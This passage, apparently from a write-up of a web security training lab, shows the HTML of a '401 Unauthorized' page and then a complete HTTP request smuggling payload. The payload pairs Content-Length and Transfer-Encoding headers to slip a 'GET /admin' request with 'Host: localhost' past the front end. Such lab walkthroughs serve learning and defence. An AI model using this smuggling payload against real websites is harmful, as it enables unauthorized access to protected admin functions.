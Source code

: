 ```html
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    Admin interface only available to local users
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```

In the response we get a "401 Unauthorized", and in the html part provided in the body we see that the error message says: "Admin interface only available to local users".

The next step would be to try to access the admin page as a local user, meaning from "localhost", thus that part is appended in the smuggled request.

Attack:
```http
POST / HTTP/1.1
Host: 0a57003e032e35ce81e67043008300bc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```
